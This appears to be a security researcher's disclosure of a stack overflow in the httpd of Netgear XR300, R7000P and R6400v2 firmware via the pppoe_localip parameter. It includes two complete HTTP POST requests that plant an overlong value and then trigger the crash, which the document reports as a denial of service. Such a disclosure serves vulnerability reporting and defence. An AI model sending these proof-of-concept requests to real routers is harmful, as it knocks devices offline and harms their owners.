




# Netgear Vulnerability

Vendor:Netgear

Product:XR300、R7000P、R6400v2

Version:1.0.3.78、1.3.3.154、1.0.4.128

Type:Stack Overflow

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an stack overflow vulnerability in Netgear router with firmware which was released recently, allows remote attackers to crash the server.

**Stack Overflow**

In `httpd` binary:

In the router's `pppoe.cgi、pppoe2.cgi、wizpppoe.cgi、geniepppoe.cgi、bsw_pppoe.cgi` function, `pppoe_localip` is directly passed by the attacker, If this part of the data is too long, it will cause the stack overflow, so we can control the `pppoe_localip` to execute arbitrary code.

> R7000P in `bsw_pppoe.cgi、ru_wan_flow.cgi`
>
> R6400v2 in `bsw_pppoe.cgi`

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `openvpn_crt_update.cgi` function. The parameter `pppoe_localip` is directly copy to a local variable placed on the stack, which overrides the return address of the function, causing buffer overflow.

<div  align="center"></div>

In `libacos_shared.so` binary:

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `pppoe_localip`, in `pppoe.cgi`
* visit the `openvpn_crt_update.cgi`


## PoC

We set `pppoe_localip` as **aaaaa......**, in `pppoe.cgi`

```http
POST /pppoe.cgi?id=1843bc329e01eefbe996b8daf1d01ff581bdf9ed9e86dc83ab96ea35564998ca HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1784
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/BAS_pppoe.htm
Cookie: XSRF_TOKEN=3322880113
Upgrade-Insecure-Requests: 1

apply=%E5%BA%94%E7%94%A8&login_type=PPPoE&pppoe_username=guest&pppoe_passwd=abc123&pppoe_servicename=&pppoe_dod=1&pppoe_idletime=5&WANAssign=Fixed&WPethr1=192&WPethr2=168&WPethr3=31&WPethr4=53&DNSAssign=0&MACAssign=0&runtest=no&wan_ipaddr=192.168.31.53&pppoe_localip=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa192.168aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa&pppoe_user_ip=...&wan_dns_sel=0&wan_dns1_pri=...&wan_dns1_sec=...&wan_hwaddr_sel=0&wan_hwaddr_def=3C%3A37%3A86%3AC3%3AB3%3A1E&wan_hwaddr2=3C3786C3B31E&wan_hwaddr_pc=FC%3A34%3A97%3A49%3A4B%3A24&opendns_parental_ctrl=0&pppoe_flet_sel=fletdisable&pppoe_flet_type=0&pppoe_temp=4&pppoe_gateway=&gui_region=&pppoe_user_netmask=...&static_pppoe_enable=0&pppoe_ip_sel=1&gui_language=Chinese&auto_time=0&ipv6_proto=disable&ipv6_proto_auto=&auto_conn_time_default=0&dial_on_demand_warning=0&parental_control=0&parental_circle=
```

<div  align="center"></div>

visit the `openvpn_crt_update.cgi`

```http
POST /openvpn_crt_update.cgi?id=5347f2280f52dff12d215622c65f7857485fa1c78a144399f11c18cfba136cdc HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 102
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/openvpn_crt_update.htm
Cookie: XSRF_TOKEN=3322880113
Upgrade-Insecure-Requests: 1

buttonHit=update_vpn_cert&buttonValue=%E6%9B%B4%E6%96%B0&update_vpn_cert=+%E6%9B%B4%E6%96%B0&progress=
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
